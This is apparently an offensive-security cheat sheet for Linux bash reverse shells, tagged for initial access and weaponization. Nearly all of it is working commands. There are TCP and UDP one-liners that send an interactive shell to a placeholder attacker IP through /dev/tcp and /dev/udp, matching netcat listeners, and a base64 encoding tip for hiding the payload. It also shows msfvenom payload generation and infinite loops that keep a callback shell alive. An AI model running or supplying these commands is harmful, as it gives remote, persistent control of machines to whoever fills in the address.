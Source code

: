 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - T1059-004
  - linux
---
```

# Bash

## 01 - TCP Method

Target

```
$ /bin/bash -i >& /dev/tcp/<attacker_IP>/<attacker_PORT> 0>&1

$ nohup setsid /bin/bash -c '/bin/bash -i >& /dev/tcp/<attacker_IP>/<attacker_PORT> 0>&1'

$ nohup 0<&103-;exec 103<>/dev/tcp/<attacker_IP>/<attacker_PORT>; sh <&103 >&103 2>&103 &2>/dev/null; sleep 1; exit
```

Attacker

```
userware@hackware-os:~$ nc -lnvp <PORT>
```

## 02 - UDP Method

Target

```
$ /bin/bash -i >& /dev/udp/<attacker_IP>/<attacker_PORT> 0>&1

$ nohup setsid /bin/bash -c '/bin/bash -i >& /dev/udp/<attacker_IP>/<attacker_PORT> 0>&1'

$ nohup 0<&103-;exec 103<>/dev/udp/<attacker_IP>/<attacker_PORT>; sh <&103 >&103 2>&103 &2>/dev/null; sleep 1; exit
```

Attacker

```
userware@hackware-os:~$ nc -luvp <PORT>
```

You can encode it with base64 then execute it.

```
$ echo <base64_payload> | base64 -d

$ echo <base64_payload> | basenc --base64 -d
```

## 03 - Generate via `msfvenom`

### 3.1 - TCP Method

```
$ msfvenom -p cmd/unix/reverse_bash lhost=<IP> lport=<PORT>
```

### 3.2 - UDP Method

```
$ msfvenom -p cmd/unix/reverse_bash_udp lhost=<IP> lport=<PORT>
```

## 04 - Persistent Callback Shell

In case you might lose the callback connection. It's better to make it persistent.

```
$ while true; do /bin/bash -c /path/to/implant; sleep 10; done

$ while true; do /bin/bash -i >& /dev/<protocol>/<IP>/<LPORT> 0>&1; sleep 10; done
```

---
## References

### Github

- [D4Vinci: One-Lin3r](https://github.com/D4Vinci/One-Lin3r)

### Hacktricks

- [Hacktricks: Shells Linux](https://book.hacktricks.wiki/en/linux-hardening/bypass-bash-restrictions/index.html)